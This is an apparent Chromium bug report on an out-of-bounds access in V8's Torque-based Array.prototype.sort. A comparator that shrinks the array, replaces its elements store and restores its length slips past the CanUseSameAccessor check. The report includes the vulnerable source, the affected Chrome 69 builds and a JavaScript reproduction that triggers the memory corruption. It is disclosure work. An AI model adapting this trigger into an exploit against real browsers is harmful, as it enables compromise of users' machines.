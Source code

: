 <b>VULNERABILITY DETAILS</b>
https://cs.chromium.org/chromium/src/v8/src/builtins/array.tq?rcl=6a21b5f98ec12d8e96e64f74f9ffb60a6fded7ce&l=578
macro CanUseSameAccessor<ElementsAccessor : type>(
    context: Context, receiver: Object, initialReceiverMap: Object,
    initialReceiverLength: Number): bool {
  assert(IsJSArray(unsafe_cast<HeapObject>(receiver)));

  let a: JSArray = unsafe_cast<JSArray>(receiver);
  if (a.map != initialReceiverMap) return false;

  let originalLength: Smi = unsafe_cast<Smi>(initialReceiverLength);
  if (a.length_fast != originalLength) return false;

  return true;
}

Array.prototype.sort has been recently reimplemented using Torque. |CanUseSameAccessor()| determines whether the
algorithm should fall back to the slow path after performing actions that are observable by JavaScript. It
currently doesn't ensure that the elements store of the array hasn't been replaced. A JS function passed to
|sort()| can do the following:
- update the length of the array forcing the store to be shrunk
- attach a new elements store to the array
- set the length to the original value

In this case, |sort()| might access OOB data because it uses the initial (shrunk) elements for load/store operations.

<b>VERSION</b>
Google Chrome 69.0.3452.0 (Official Build) dev (64-bit) (cohort: Dev)
Google Chrome 69.0.3457.0 (Official Build) canary (64-bit) (cohort: Clang-64)

<b>REPRODUCTION CASE</b>
<script>
ARRAY_LEN = 1024 * 1024;

array = [];
for (let i = 1; i < ARRAY_LEN; ++i) {
  array[i] = i + 0.1;
}

let executed = false;
compareFn = _ => {
  if (!executed) {
    executed = true;

    array.length = 1; // shrink
    array.length = 0; // replace
    array.length = ARRAY_LEN; // restore the original length
  }
}

array.sort(compareFn);
location.reload();
</script>
